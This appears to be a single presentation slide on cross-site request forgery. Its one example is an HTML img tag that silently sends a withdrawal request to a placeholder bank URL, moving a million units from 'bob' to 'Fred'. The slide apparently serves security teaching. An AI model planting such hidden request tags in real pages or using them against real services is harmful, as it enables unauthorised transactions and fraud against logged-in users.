

# IMG Injection (embedded CSRF)

<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=Fred">